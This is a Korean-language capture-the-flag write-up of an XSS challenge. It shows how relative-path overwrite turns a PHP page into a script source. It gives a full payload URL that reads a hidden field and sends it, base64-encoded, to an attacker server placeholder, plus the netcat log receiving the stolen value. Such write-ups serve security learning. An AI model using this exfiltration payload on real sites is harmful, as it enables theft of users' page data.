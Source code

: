 이 문제는 전형적인 XSS 문제의 형태를 띄고 있는 것을 알 수 있다.

```php
echo "<input name='piece' value='".$secret."' type='hidden'>";
```

위의 코드는 플래그가 들어갈 것 같이 생긴 부분이다.

또한, 가운데 주석 부분에 입력한 값이 들어간다.

```php
echo "<!-- P/s: Your grand line is ".htmlentities(urldecode($grandline),ENT_QUOTES)." , this is not Luffy 's grand line -->"; 
```

하지만 <,>를 사용할 수 없으므로 다른 방법을 생각해봤으며, 재밌는 부분을 발견하였다.

```html
<!-- 
/* * *  Power By 0xd0ff9 * * * 
--> 
... ...
echo "<!-- P/s: Your grand line is ".htmlentities(urldecode($grandline),ENT_QUOTES)." , this is not Luffy 's grand line -->"; 
... ...
<!-- Infact, ?debug will help you learn expression to build Grand Line ( Ex: !<>+-*/ ) 
```

url에 \*/ ~~~ /\* 을 통해 javascript 코드를 만들 수 있다.

하지만 그러기 위해서는 이를 javascript로써 로드를 해야하는데, 그것을 위해서 RPO를 이용하였다.

```html
<script src="js/jquery.min.js"></script> 
```

script 로드 시 상대주소로 호출을 하므로 index.php가 아닌 index.php/를 요청해주므르써, index.php가 script로써 로드가 된다. 

> http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/

이 같은 방법을 이용하여 XSS쿼리를 생성해주면 다음과 같다.

```
http://localhost/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/*/window.onload=function(){new%20Image().src=`//[MY SERVER]/`%2bbtoa(document.getElementsByName(`piece`)[0].value)};function%20a()%7B%7D;a(/*/*
```

이제 이를 위 URL을 Bigmom에게 보내주면 다음과 같은 결과를 받으며 플래그를 얻을 수 있다.

```bash
$ nc -lvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [=] port 80 [tcp/http] accepted (family 2, sport 39946)
GET /WW91IGFyZSBvbiBuZXcgd29ybGQsIGZsYWc6IE1lZVB3bkNURntXZWxjb21lX3RvX05ld19Xb3JsZH0= HTTP/1.1
Host: [MY SERVER]
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/69.0.3477.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/*/window.onload=function()%7Bnew%20Image().src=%60//[MY SERVER]/%60%2bbtoa(document.getElementsByName(%60piece%60)[0].value)%7D;function%20a()%7B%7D;a(/*/*
Accept-Encoding: gzip, deflate
$ ipython
Python 2.7.12 (default, Nov 20 2017, 18:23:56)
Type "copyright", "credits" or "license" for more information.

IPython 2.4.1 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
```